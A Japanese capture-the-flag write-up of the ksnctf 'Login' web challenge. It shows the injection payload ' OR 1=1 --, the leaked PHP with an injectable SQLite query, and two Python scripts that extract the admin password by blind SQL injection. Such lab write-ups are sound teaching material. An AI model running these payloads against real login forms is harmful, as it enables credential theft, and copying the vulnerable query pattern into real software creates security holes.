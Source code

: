 # ksnctf: Login

**Category:** Web  
**Points:** 120pt  
**Description:**  

> http://ctfq.sweetduet.info:10080/~q6/

**Hint:**

>

## 解き方
サイトにアクセスするとadminでログインしろとの指示がある．

![img01](../assets/img/Screenshot_2018-10-12_11-17-32.png)

お決まりの`' OR 1=1 --`でSQLiを試してみるとflagは取得できないもののサーバサイドのソースコードをリークできた．flagはadminのパスワードらしい．

```html
 Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

sqliteのDBを使用しており，おそらくパスワード(flag)の長さは今までの問題からして`21`と思われる．念の為，長さを確認するスクリプトはこちら．

```python
#!/usr/bin/env python

import urllib.request
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"

def main():
    for i in range(1, 100):
        # payload for POST
        payload = {
            "id": "admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {counter} --".format(counter=i),
            "pass": "",
        }

        # encode utf-8
        post_data = urllib.parse.urlencode(payload).encode("utf-8")
        req = urllib.request.Request(url, post_data)

        # HTTP response
        res = urllib.request.urlopen(req)
        if int(res.headers["content-length"]) > 2000:
            print("length of the password is {counter}".format(counter=i))
            break

if __name__ == "__main__":
    main()
```

adminのパスワード長をSQL文のLENGTHで取得し，一致した場合にログインが成功するSQLを繰り返し発行している．これにより`21`文字とわかったので，総当りでパスワードを探索する．

```python
#!/usr/bin/env python

import urllib.request
import urllib.parse

url = "http://ctfq.sweetduet.info:10080/~q6/"


def main():
    for i in range(1, 22):
        # crack password with [0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_]
        for char_n in range(48, 123):
            # payload for POST
            flag = chr(char_n)
            payload = {
                "id": "admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {index}, 1) = '{char}' --".format(
                    index=i, char=flag
                ),
                "pass": "",
            }

            # encode utf-8
            post_data = urllib.parse.urlencode(payload).encode("utf-8")
            req = urllib.request.Request(url, post_data)

            # HTTP response
            res = urllib.request.urlopen(req)
            if int(res.headers["content-length"]) > 2000:
                print(flag, end="")
                break
    print()


if __name__ == "__main__":
    main()
```

`SUBSTR`を用いてadminのpassを先頭から1文字ずつ抜き出し，総当りで同じ文字が該当した場合はログイン成功とみなす処理をしている．この繰り返しでflagを取得した．この脆弱性は`Blind SQL Injection`と呼ばれ，SQLiは確かに存在するが，結果は表示されない類のものらしい．まとまった情報を取得するには，総当りなどで1bitずつ情報を繰り返し取得する必要があるとの事だった．なるほど．
